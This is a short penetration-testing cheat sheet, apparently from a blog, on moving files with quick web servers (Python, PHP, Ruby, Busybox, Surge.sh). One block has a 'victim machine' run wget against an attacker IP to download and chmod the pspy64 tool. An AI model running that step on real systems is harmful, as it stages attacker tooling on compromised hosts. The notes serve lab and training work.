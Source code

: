 ```yaml
---
description: >-
  File transfer via web server.
title: Local Web Server                 # Add title here
date: 2022-09-05 08:00:00 -0600                           # Change the date to match completion date
categories: [03 File Transfer, Linux - Local Web Server]                     # Change Templates to Writeup
tags: [file transfer, linux web server]     # TAG names should always be lowercase; replace template with writeup, and add relevant tags
show_image_post: false                                    # Change this to true
#image: /assets/img/machine-0-infocard.png                # Add infocard image here for post preview image
---
```


### Python3
Via web:

```bash
# On our machine:
python3 -m http.server 8888

# On victim machine:

wget http://10.10.16.5:8888/pspy64
chmod +x pspy64
```

### Python2
```bash 
python -m SimpleHTTPServer 7331
```

### PHP
```bash
php -S 0.0.0.0:8080
```

### Ruby
```bash
ruby -run -e httpd . -p 9000
```

### Busybox
```bash
busybox httpd -f -p 10000
```

### Surge.sh
This is an excellent option to host an Internet exposed web server.
First we need to install surge with npm:
```bash
npm install --global surge
```
Then we need to execute the surge command and provide all the details needed to host our web server.
- 1) File's path, all the files on it will be hosted.
- 2) Name of your web server, this will be the subdomain you choose and it must have the surge.sh as domain, if it's already taken it won't work.
```bash
surge             

   Running as shuciran@gmail.com (Student)

        project: /opt/test/
         domain: blue-eyed-harmony.surge.sh
         upload: [====================] 100% eta: 0.0s (1 files, 15 bytes)
            CDN: [====================] 100%
     encryption: *.surge.sh, surge.sh (48 days)
             IP: 138.197.235.123

   Success! - Published to blue-eyed-harmony.surge.sh
```

If this is the first time, you'll need to provide an e-mail and a password.
{: .prompt-info }